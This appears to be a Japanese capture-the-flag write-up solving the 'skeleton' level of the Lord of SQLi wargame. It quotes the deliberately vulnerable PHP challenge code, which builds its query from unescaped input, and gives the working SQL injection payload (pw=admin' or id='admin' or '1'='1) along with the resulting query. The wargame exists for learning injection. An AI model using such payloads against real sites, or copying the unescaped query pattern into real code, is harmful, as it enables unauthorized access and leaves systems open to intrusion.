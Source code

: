 # skeleton

## answer

```
https://los.eagle-jump.org/skeleton_8d9cbfe1efbd44cfbbdc63fa605e5f1b.php?pw=admin%27%20or%20id=%27admin%27%20or%20%271%27=%271
```

## problem

```
query : select id from prob_skeleton where id='guest' and pw='' and 1=0

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

## memo

試しに、

```
https://los.eagle-jump.org/skeleton_8d9cbfe1efbd44cfbbdc63fa605e5f1b.php?pw=1
```

とすると

```
query : select id from prob_skeleton where id='guest' and pw='1' and 1=0
```

となった。

コードを読んでいく。

```
if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
```

クリア条件は

```
if($result['id'] == 'admin') solve("skeleton"); 
```

なので、無理矢理idをadminできないかと適当にやってたら、

```
https://los.eagle-jump.org/skeleton_8d9cbfe1efbd44cfbbdc63fa605e5f1b.php?pw=admin%27%20or%20id=%27admin%27%20or%20%271%27=%271
```

```
query : select id from prob_skeleton where id='guest' and pw='admin' or id='admin' or '1'='1' and 1=0

SKELETON Clear!
```

解けた。


```
?pw=admin' or id='admin' or '1'='1
```


## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [エラー制御演算子 | php manual](https://www.php.net/manual/ja/language.operators.errorcontrol.php)

- [ereg | php manual](https://www.php.net/manual/ja/function.ereg.php)

- [文字列検索での大文字小文字の区別 | mysql manual](https://dev.mysql.com/doc/refman/5.6/ja/case-sensitivity.html)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)
